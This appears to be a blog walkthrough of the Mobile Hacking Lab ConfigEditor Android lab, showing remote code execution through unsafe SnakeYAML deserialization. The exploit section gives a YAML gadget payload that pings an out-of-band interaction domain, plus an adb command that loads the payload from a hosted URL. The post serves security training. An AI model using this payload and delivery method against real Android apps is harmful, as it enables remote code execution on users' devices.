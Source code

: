```yaml
---
date: '2024-07-30T21:39:58+05:30'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - ConfigEditor"
    relative: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - ConfigEditor"
showFullContent: true
readingTime: true
title: 'Learning Android Pentesting: Mobile Hacking Lab ConfigEditor'
showFullContent: true
readingTime: true
draft: false
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


Since that past few weeks, I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Config Editor.

The goal of the lab is to achieve Remote Code Execution by exploiting vulnerabilities in a third party library.

# Analyzing the Application

First things firt, I decompiled the application with JADX-GUI. Looking at the AndroidManifest.xml file, I notice that the application only has one activity, called the `MainActivity`. This activity is exported and hence can be invoked directly.
![Android Manifest Exported Activity](images/android-manifest.png)

Going through the MainActivity class, I started by looking at the `onCreate` function, as that would be our entry-point to this activity.
![MainActivity onCreate handler](images/oncreate-handler.png)

This function sets up the application UI, event handlers for buttons, and then finally passes control to the `handleIntent` function.
![Call to handleIntent](images/call-to-handleintent.png)

HandleIntent is where the fun begins. This function extracts the data and action from the Intent, which is then passed to the `loadYaml` method.![Data is passed to loadYaml](images/pass-to-loadyaml.png)

The `loadYaml` function reads the file provided through the intent data. The contents of this file are then deserialized using the `yaml.load` function.
![Insecure Yaml Load Sink](images/yaml-load-sink.png)

This is our sink. All YAML functionality in this application is provided via the snakeyaml library, as seen in the imports of the `MainActivity` class.
![Imports SnakeYaml](images/imports-snakeyaml.png)

Also observe that there is a nice gadget provided to us to execute commands:
![gadget](images/gadget.png)

# Executing the Exploit

Host a `exploit.yml` file with the following content via the python HTTP server. Replace the domain name with another payload from interactsh/burp-collaborator or similar.
```yaml
some_var:
  !!com.mobilehackinglab.configeditor.LegacyCommandUtil
  ["ping hfjbgzlukkcfmdxzfkjzd9k17nkd241lt.oast.fun"]
```
Launch the `MainActivity` and pass the action flag with the value `android.intent.action.VIEW` and the data flag with the URL to your file hosted over the python HTTP server.
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.19:8000/exploit.yml
```

Observe that you receive a hit on your HTTP server.
![Hit is received](images/hit.png)

Observe that a hit is also received on interactsh, proving remote code execution.
![interactsh hit](images/interactsh.png)

# Conclusion

This lab teaches us that third-party libraries can introduce vulnerabilities within your applications. It is important to analyze dependencies both from an offensive as well as defensive perspective to keep the end user safe.